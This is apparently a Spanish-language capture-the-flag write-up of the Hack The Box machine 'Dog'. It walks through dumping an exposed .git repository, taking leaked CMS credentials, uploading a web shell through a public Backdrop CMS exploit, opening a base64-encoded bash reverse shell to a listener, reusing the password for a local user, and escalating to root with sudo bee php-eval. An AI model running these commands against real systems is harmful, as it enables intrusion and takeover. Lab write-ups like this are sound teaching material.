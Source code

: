 + Machine Name: Dog
+ IP: 10.129.172.236
+ OS: Linux
+ Difficulty: Easy

# Enumeracion

## Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n --open -vvv --min-rate 1000 -oG allports 10.129.172.236
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Puertos 80 http y 22 ssh abiertos.

Escaneo detallado:

```
nmap -p22,80 -sCV -oN targeted 10.129.172.236
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   10.129.172.236:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap revela un repositorio de github en  /.git.

![git.png](Images/git.png)

Con [GitHack](https://github.com/lijiejie/GitHack) extraigo el repositorio:

```
python3 GitHack/GitHack.py http://10.129.172.236/.git/
```

```
root@kali /home/cangrejo/Escritorio/dog/Content/10.129.172.236 # ls -l 
total 80
drwxr-xr-x 9 root root  4096 jul 13 15:43 core
drwxr-xr-x 7 root root  4096 jul 13 15:43 files
-rw-r--r-- 1 root root   578 jul 13 15:43 index.php
drwxr-xr-x 2 root root  4096 jul 13 15:43 layouts
-rw-r--r-- 1 root root 18092 jul 13 15:43 LICENSE.txt
-rw-r--r-- 1 root root  5285 jul 13 15:43 README.md
-rw-r--r-- 1 root root  1198 jul 13 15:43 robots.txt
-rw-r--r-- 1 root root 21732 jul 13 15:43 settings.php
drwxr-xr-x 2 root root  4096 jul 13 15:43 sites
drwxr-xr-x 2 root root  4096 jul 13 15:43 themes
```

En el archivo `settings.php` se encuentra una contraseña para el usuario root:

```
<?php
<..snip..>
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';
<..snip..>
```

Las credenciales no son válidas para root:

![root.png](Images/root.png)

El login permite autenticación mediante nombre de usuario o dirección de correo.

En la pagina principal en `About` se observa el dominio `dog.htb`:

![about.png](Images/about.png)

Uso `grep` para buscar de forma recursiva `dog.htb`:

```
grep -r "dog.htb"
```

```
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

Usuario `tiffany@dog.htb`.

La contraseña es valida para `tiffany`:

![login.png](Images/login.png)

![cms.png](Images/cms.png)

En la lista de módulos se observa una posible versión de `backdrop`:

![version.png](Images/version.png)

con `serachsploit` busco si existen exploits para esa versión de `Backdorp`:

```
Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)                                                                                          | php/webapps/52021.py
```

```
searchsploit -x php/webapps/52021.py
```

El script crea un modulo con una web shell en php y lo comprime en un .zip:

```
searchsploit -m php/webapps/52021.py
```

`-m` es para copiar el exploit en el directorio actual.

```
python3 52021.py http://10.129.172.236/
```

```
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.129.172.236//admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.129.172.236//modules/shell/shell.php
```

Al intentar instalar el modulo me devuelve un error:

![zip.png](Images/zip.png)

El modulo debe estar en `tar.gz`.

Descomprimo el .zip y lo vuelvo a comprimir en tar.gz:

```
tar -czvf shell.tar.gz shell
```

Instalo el modulo:

![tar.gz.png](Images/tar.gz.png)

en `http://10.129.172.236/modules/shell/shell.php` se encuentra la webshell:

![webshell.png](Images/webshell.png)

# Shell como www-data

Reverse shell en base64:

```
echo "bash -i >& /dev/tcp/10.10.14.244/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDQvNDQzIDA+JjEK
```

![shell.png](Images/shell.png)

Terminal en escucha:

```
listening on [any] 443 ...
connect to [10.10.14.244] from (UNKNOWN) [10.129.172.236] 38858
bash: cannot set terminal process group (1012): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dog:/var/www/html/modules/shell$ whoami
whoami
www-data
```

La flag `user.txt` se encuentra en el directorio home de `johncusack` pero no se puede leer:

```
www-data@dog:/home/johncusack$ cat user.txt
cat: user.txt: Permission denied
```

# PrivEsc
## Reutilizacion de contraseñas

La contraseña de `tiffany@dog.htb` se reutiliza para el usuario `johncusack`:

```
www-data@dog:/home/johncusack$ su johncusack
Password: 
johncusack@dog:~$ whoami
johncusack
```

Flag `user.txt`:

```
johncusack@dog:~$ cat /home/johncusack/user.txt
80bf7f**************************
```
## Sudo

el usuario `johncusack` puede ejecutar como cualquier usuario el binario `bee`:

```
User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

El binario `bee` es una herramienta de linea de comandos proporcionada por `Backdrop CMS` 
que permite a los administradores gestionar CMS desde la termial.

Al ejecutarlo muestra varias opciones que se pueden usar, la mas interesante es `php-eval`:

![bee.png](Images/bee.png)

```
sudo bee --root=/var/www/html php-eval 'system("whoami")'
```

+ `--root=/var/www/html` es para indicar el directorio root de la instalación de backdrop a usar.
+ `php-eval` ejecuta codigo php arbitrario.
+ `system("whoami")` codigo php.

```
johncusack@dog:~$ sudo bee --root=/var/www/html php-eval 'system("whoami")'
root
```

shell root:

```
sudo bee --root=/var/www/html php-eval 'system("bash -p")'
```

```
root@dog:/var/www/html# whoami
root
```

Flag `root.txt`:

```
root@dog:/var/www/html# cat /root/root.txt
5c2522**************************
```

# 🦀

